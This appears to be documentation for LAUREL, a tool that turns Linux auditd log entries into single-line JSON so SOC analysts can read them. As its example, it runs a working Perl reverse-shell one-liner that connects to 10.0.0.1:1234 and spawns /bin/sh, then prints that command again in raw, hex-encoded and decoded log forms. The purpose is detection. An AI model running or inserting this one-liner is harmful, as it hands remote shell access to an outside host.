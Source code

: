 # Practical _auditd(8)_ problems

When configured with the right ruleset, logs written by the Linux audit daemon contain most of the information that a competent SOC team needs for host-based security monitoring.

Unfortunately, some design choices for the log format make accessing this information harder than necessary.

Running a simple Perl [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) one-liner
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
produces the following output in the audit log:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

A cursory look at the audita log does not tell us what is going on, except that a Perl interpreter has been started. We would like to do better.

There are several issues with processing this log file format within a SIEM context:

- Different aspects of the same audit event are spread across multiple lines and have to be joined together.
- Strings that contain characters with special meaning for the audit log format (spaces, quotes, etc.) are encoded as hexadecimal strings without quotes and require decoding before they can be processed or displayed to the analyst.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values. (This does not matter for this example.)
- Long command lines are even spread across multiple EXECVE event lines. (This does not matter for this example.)
- If the _auditd(8)_ user-space daemon adds information such as user   or group names (`format=ENRICHED`), this extra information is appended after a `\x1d` "group separator" character which may or may  not be displayed correctly.

This is the same log entry, processed by _LAUREL_ into a single log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root"},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}",PARENT_INFO":{"ARGV":["bash"],"launch_time":1626611323.973,"ppid":3190631}}
```

We can see that our main problems that would have prevented us from identifying the reverse shell have been resolved:
``` json
"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}
```

We can also see the parent process that was used to spawn the reverse shell:
``` json
"PARENT_INFO":{"ARGV":["bash"],"launch_time":1626611323.973,"ppid":3190631}
```

Every line is a proper JSON document that can be reformatted with _jq_:
``` json
{
  "ID": "1626611363.720:348501",
  "SYSCALL": {
    "arch": "0xc000003e",
    "syscall": 59,
    "success": "yes",
    "exit": 0,
    "a0": "0x55c094deb5c0",
    "a1": "0x55c094dea770",
    "a2": "0x55c094dbf1b0",
    "a3": "0xfffffffffffff286",
    "items": 3,
    "ppid": 722076,
    "pid": 724395,
    "auid": 1000,
    "uid": 0,
    "gid": 0,
    "euid": 0,
    "suid": 0,
    "fsuid": 0,
    "egid": 0,
    "sgid": 0,
    "fsgid": 0,
    "tty": "pts3",
    "ses": 3,
    "comm": "perl",
    "exe": "/usr/bin/perl",
    "subj": "=unconfined",
    "key": null,
    "ARCH": "x86_64",
    "SYSCALL": "execve",
    "AUID": "user",
    "UID": "root",
    "GID": "root",
    "EUID": "root",
    "SUID": "root",
    "FSUID": "root",
    "EGID": "root",
    "SGID": "root",
    "FSGID": "root"
  },
  "EXECVE": {
    "argc": 3,
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"
    ]
  },
  "CWD": {
    "cwd": "/root"
  },
  "PATH": [
    {
      "item": 0,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 1,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 2,
      "name": "/lib64/ld-linux-x86-64.so.2",
      "inode": 404797,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    }
  ],
  "PROCTITLE": {
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"
    ]
  },
  "PARENT_INFO": {
    "ARGV": [
      "bash"
    ],
    "launch_time": 1626611323.973,
    "ppid": 3190631
  }
}
```
